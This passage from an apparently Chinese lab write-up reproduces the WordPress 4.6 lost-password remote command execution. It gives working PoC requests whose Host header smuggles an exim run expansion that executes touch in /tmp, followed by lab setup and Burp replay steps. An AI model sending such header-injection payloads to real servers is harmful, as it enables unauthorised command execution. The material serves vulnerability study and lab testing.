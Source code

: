 可以发现此时又出问题了，参数中出现的空格，导致参数被分割了。 于是作者通过sendmail -be '${substr{10}{1}{$tod_log}}'从环境变量中抽取了空格。

最终poc请求如下:

	POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1  
	Host: xenial(tmp1 -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}test}}  tmp2)  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 56
	
	
	user_login=admin&redirect_to=&wp-submit=Get+New+Password 

命令会在/tmp目录下创建test文件

## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境准备 ###

1. Ubuntu14.04 虚拟机（虚拟机或其他Linux都可）
2. WordPress-4.6源码
3. Apache+php+MySql环境
3. sendmail 和 exim4扩展

**注：** 虚拟机中也可以直接执行：

	apt-get install -y --force-yes php5-mysql php5-dev php5-gd php5-memcache php5-pspell php5-snmp snmp php5-xmlrpc libapache2-mod-php5 php5-cli exim4

将所需的环境都装上。

### 4.2&emsp;靶场搭建 ###

把下载的源码拷进Apache根目录，解压源码，然后直接通过浏览器访问按照正常的wordpress安装流程安装即可。

### 4.3&emsp;漏洞验证 ###

1.浏览器访问wordpress主页，进入登录页面点击忘记密码进入密码找回页面

![wordpress]({{ '/styles/images/wordpress/1.png' | prepend: site.baseurl  }})

2.浏览器设置代理拦截找回密码request请求包

![wordpress]({{ '/styles/images/wordpress/2.png' | prepend: site.baseurl  }})

3.点击数据包，send Repeater 构造攻击payload发送攻击数据包

![wordpress]({{ '/styles/images/wordpress/3.png' | prepend: site.baseurl  }})

构造payload：

	Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}manning.test}} null)
